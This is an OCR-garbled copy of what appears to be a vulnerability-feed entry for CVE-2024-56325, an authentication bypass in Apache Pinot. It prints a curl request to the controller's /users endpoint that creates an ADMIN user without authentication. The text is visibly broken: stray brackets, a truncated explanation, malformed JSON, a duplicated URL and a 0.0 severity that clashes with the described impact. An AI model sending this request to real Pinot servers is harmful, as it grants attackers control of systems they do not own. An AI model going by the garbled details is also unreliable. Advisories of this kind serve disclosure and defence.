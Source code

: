 ```yaml
---
title: CVE-2024-56325
date: 2025-4-1
lien: "https://cvefeed.io/vuln/detail/CVE-2024-56325"

---
```


CVE ID : CVE-[[2024]]-56325
 
Published :  April 1
2025
9:15 a.m. | 4 hours
34 minutes ago
 
Description : Authentication  [[ [[ [[Bypass2025Issue

If the path does not contain / and contain.
authentication is not required.

Expected Normal Request and Response Example

curl -X POST -H "Content-Type: application/json" -d {\"username\":\"hack2\"
\" [[password]]\":\"hack\"
\"component\":\"CONTROLLER\"
\"role\":\"ADMIN\"
\"tables\":[]
\"permissions\":[]
\"usernameWithComponent\":\"hack_CONTROLLER\"}  http://{server_ip}:9000/users 


Return: {"code":401
"error":" [[HTTP]] 401 Unauthorized"}


Malicious Request and Response Example 

curl -X POST -H "Content-Type: application/json" -d '{\"username\":\"hack\"
\" [[password]]\":\"hack\"
\"component\":\"CONTROLLER\"
\"role\":\"ADMIN\"
\"tables\":[]
\"permissions\":[]
\"usernameWithComponent\":\"hack_CONTROLLER\"}'  http://{serverip}:9000/users; http://{serverip}:9000/users; .


Return: {"users":{}}



 

A new user gets added bypassing authentication
enabling the user to control Pinot.
 
Severity: 0.0 | NA
 
Visit the link for more details
such as CVSS details
affected products
timeline
and more...
